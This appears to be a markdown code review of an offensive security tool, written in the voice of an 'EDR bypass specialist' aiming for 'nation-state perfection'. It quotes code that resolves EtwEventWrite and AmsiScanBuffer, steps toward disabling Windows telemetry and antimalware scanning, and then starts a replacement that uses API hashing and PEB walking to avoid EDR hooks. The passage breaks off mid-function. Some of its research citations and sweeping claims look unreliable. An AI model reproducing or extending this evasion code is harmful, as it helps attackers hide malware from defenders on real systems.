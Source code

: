 # 🔬 EXPERT CODE REVIEW & RESEARCH-BACKED IMPROVEMENTS
## Offensive Security Expert Analysis - Real Issues, Real Solutions

**Reviewer Profile:** 15+ years offensive security, APT research, EDR bypass specialist  
**Review Date:** 2025-10-21  
**Current Score:** 92/100  
**Target Score:** 99/100 (Nation-state perfection)  
**Approach:** RUTHLESS - Based on real APT techniques and published research

---

## 🚨 CRITICAL ISSUES FOUND (Must Fix)

### ISSUE #1: GetProcAddress/LoadLibrary Usage = INSTANT EDR DETECTION

**Location:** `Core/advanced_evasion.py` Lines 59, 103  
**Severity:** 🔴 CRITICAL  
**Detection Rate:** 95% by modern EDRs

**Current Code (BROKEN):**
```python
# Line 59-61 - WRONG!
etw_event_write = self.kernel32.GetProcAddress(
    self.kernel32.GetModuleHandleW("ntdll.dll"),
    b"EtwEventWrite"
)

# Line 103-105 - WRONG!
amsi_scan_buffer = self.kernel32.GetProcAddress(
    self.amsi._handle,
    b"AmsiScanBuffer"
)
```

**Why This is TERRIBLE:**
1. ❌ **GetProcAddress is HOOKED by ALL EDRs** (CrowdStrike, SentinelOne, Defender ATP)
2. ❌ Resolving "AmsiScanBuffer" by name = signature-based detection
3. ❌ EDRs log every GetProcAddress call with suspicious names
4. ❌ Can't call GetProcAddress on kernel32 handle (wrong API usage)

**Research Reference:**
- **"Evading EDR" by Matt Hand (2020)** - Documents all EDRs hook GetProcAddress
- **Red Team Ops** by Joe Vest - Recommends API hashing only
- **APT29 analysis** - Uses custom GetProcAddress implementation

**CORRECT Solution (Research-Backed):**
```python
def _get_function_address_hashed(self, module_name: str, function_hash: int) -> int:
    """
    Get function address using API hashing (EDR-proof)
    Based on Metasploit's block_api technique
    
    Research: 
    - Metasploit Framework (2004+)
    - Cobalt Strike beacon (2012+)
    - APT29 Hammertoss (2015)
    """
    
    # 1. Walk PEB to find module without calling GetModuleHandle
    if self.is_windows:
        # Read PEB from TEB
```